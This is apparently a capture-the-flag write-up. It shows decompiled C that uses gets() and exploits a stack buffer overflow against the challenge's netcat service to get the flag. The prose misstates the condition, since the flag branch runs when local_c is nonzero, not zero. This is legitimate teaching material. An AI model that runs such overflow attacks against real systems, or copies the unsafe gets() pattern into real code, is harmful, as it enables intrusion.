

# Well hello there

> We initiated the development of a bot. So far it greets you by your name. Can you test it? Access: `nc challenges.defsoc.tk 22228`

Opened the `main` function of the program in Ghidra:



```c
undefined8 main(void)

{
  char acStack88 [76];
  int local_c;
 
  puts("Hello there! What is your name?");
  fflush(stdout);
  local_c = 0;
  gets(acStack88);
  if (local_c == 0) {
    printf("Well, hello %s!",acStack88);
  }
  else {
    system("cat flag.txt");
  }
  putchar(10);
  return 0;
}

```

It checks the value of `local_c`: if it's `0`, it will give the flag. However, `acStack88` is declared before `local_c`: as a consequence, if we write our name longer than 76 characters, it will overwrite `local_c` value. Yes, we have here a simple buffer overflow!

```bash
$ nc challenges.defsoc.tk 22228   
Hello there! What is your name?
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
flag{buff3r_0v3rfl0w_r0cks}
```

## Flag

```
flag{buff3r_0v3rfl0w_r0cks}
```

